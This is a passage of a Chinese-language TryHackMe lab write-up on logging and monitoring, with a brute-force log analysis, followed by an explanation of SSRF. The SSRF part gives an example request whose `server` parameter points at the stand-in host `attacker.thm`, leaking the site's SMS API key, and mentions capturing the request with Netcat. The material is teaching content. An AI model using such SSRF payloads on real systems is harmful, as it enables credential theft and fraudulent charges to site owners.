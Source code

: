 因为日志文件会包含一些敏感信息，所以确保安全地存储日志文件以及将这些日志的多个副本存储在不同位置非常重要。

你可能已经注意到，在发生网络安全违规或事件后，日志记录会变得尤为重要。理想的情况是：目标应用程序能够进行监控以检测任何可疑活动，而检测这种可疑活动的目的要么是为了完全阻止攻击者，要么是当检测到攻击者的时间比预期晚得多时(例如，在攻击者入侵十天之后才检测到)尽可能地减少攻击者所造成的影响。

可疑活动的常见示例包括：

* 针对特定操作进行多次未经授权的尝试：通常是身份验证尝试或者访问未经授权的资源(例如管理员页面)。
* 来自异常 IP 地址或位置的请求：这可能表明其他人正在尝试访问特定用户的帐户(针对该活动的检测具有一定误报率)。
* 使用了自动化工具：特定的自动化工具可以很容易地被识别到，例如，检测用户所使用的User-Agent标头的值或用户发送请求的速率，出现这些特征可能表明攻击者正在使用自动化攻击工具。
* 使用了常见的有效载荷(Payload)：在Web应用程序中，攻击者可能会使用一系列已知的有效载荷，通过检测这些有效载荷的使用情况，就可以得知是否有人在对目标应用程序进行未经授权或恶意的测试。

仅仅检测可疑活动还不够，网络安全防御人员还需要根据事件影响级别对可疑活动进行评级；例如某些攻击行为会比其他攻击行为产生更大的影响，这些影响较大的可疑活动往往需要优先做应急响应，因此防御人员应该针对性地发出告警，以引起公司相关部门的注意。

接下来，我们需要通过分析示例日志文件来实践本小节的知识点。

### 答题

在与本小节相关的Tryhackme实验房间中，单击`Download Task Files` 按钮以下载要分析的示例日志文件。

![image-20240109192110074](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109192110074.png)

我们打开已下载的示例日志文件并查看其内容：

![image-20240109192321809](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109192321809.png)

分析该日志文件的内容可知：

1.在短时间内有人进行了四次登录操作，对应的可疑ip地址为：49.99.13.16；

2.四次登录操作使用的是不同的用户名，所以相关的一系列行为属于：暴力破解攻击（Brute Force）。

![image-20240109192446654](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109192446654.png)

## \[TOP10]服务器端请求伪造(SSRF)

这种类型的漏洞发生在攻击者能够强制Web应用程序代表其向任意目标发送请求的情况下，同时攻击者还可以控制请求本身的内容，SSRF漏洞通常出现在需要使用第三方服务的Web应用程序的具体实现中。

tips：SSRF(Server-Side Request Forgery)服务器端请求伪造。

例如，考虑一个使用外部API向其客户端发送SMS通知的Web应用程序。对于每封电子邮件，网站都需要向SMS提供商的服务器发出Web请求，以便发送想要发送的消息内容。由于SMS服务提供商是按每条消息计费的，因此他们会要求你在向其API发出的每个请求中添加一个他们预先分配给你的密钥；这个API密钥将充当身份验证令牌，使得SMS服务提供商能够知道要向哪个用户计费每条消息。该Web应用程序的相关工作流程如下：

![image-20240108224740319](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240108224740319.png)

通过查看上图内容，我们很容易看出漏洞所在，应用程序向用户公开了`server`参数，该参数定义了SMS服务提供商的服务器名称；如果攻击者愿意，他们就可以通过简单地修改`server`值以指向由其所控制的计算机设备，然后Web应用程序就会将SMS请求转发给攻击者而不是SMS服务提供商。作为被转发的消息的一部分，攻击者还能获取到API密钥，从而允许他们使用SMS服务发送消息，而费用则由网站所有者承担。为了实现刚才所描述的效果，攻击者只需要向目标Web应用程序发送以下请求：

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

这将使得存在SSRF漏洞的Web应用程序自动发送以下请求：

`https://attacker.thm/api/send?msg=ABC`

然后，攻击者可以在由他们所控制的计算机设备上使用Netcat来捕获相关请求的内容：
